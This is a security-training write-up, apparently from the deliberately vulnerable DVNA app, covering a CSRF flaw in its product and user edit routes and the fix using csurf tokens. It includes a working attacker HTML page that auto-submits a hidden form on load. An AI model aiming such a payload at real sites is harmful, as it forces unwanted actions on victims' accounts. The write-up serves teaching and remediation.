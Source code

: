 # Cross-site Request Forgery

## CSRF in Add/Edit product, User Edit

The application is vulnerable to a Cross-sites-Request-Forgery in `Product Management` feature. The application fails to implement anti-CSRF token to prevent forced browsing.

http://127.0.0.1:9090/app/modifyproduct

http://127.0.0.1:9090/app/useredit

This issue can be exploited by an attacker by hosting a malicious page like the one below and tricking the victim onto visiting it. The below example will add a new product on behalf of the victim on visiting a crafted URL like `http://youtube.com.xyz.nxd/watch/v=cute-kitten` by the attacker

*Attacker's Webpage*
```html
<html>
    <body onload='document.hidden_form.submit()'>
        <form name="hidden_form" method="POST" action="http://127.0.0.1:9090/app/modifyproduct">
            <input type="hidden" name="name" value="Hacked">
            <input type="hidden" name="code" value="hacked">
            <input type="hidden" name="tags" value="hack">
            <input type="hidden" name="description" value="This is a hacked product">
        </form>
    </body>
</html>
```

**Solution**

CSRF vulnerabilities can be fixed by ensuring anti-CSRF tokens are needed for successful form submission. 

This can be done by using a module like [csurf](https://www.npmjs.com/package/csurf), and can save time needed to correctly implement your own logic.

**Fixes**

Implemented in the following files

- *routes/app.js*
- *core/appHandler.js*
- *views/app/modifyproducts.ejs*
- *views/app/useredit.ejs*

The fix has been implemented in this [commit](https://github.com/appsecco/dvna/commit/2c88ab87f19a9d124c925d33f346ec3897038eea)

**Reference**

- https://www.owasp.org/index.php/Cross-Site_Request_Forgery_(CSRF)
- https://github.com/expressjs/csurf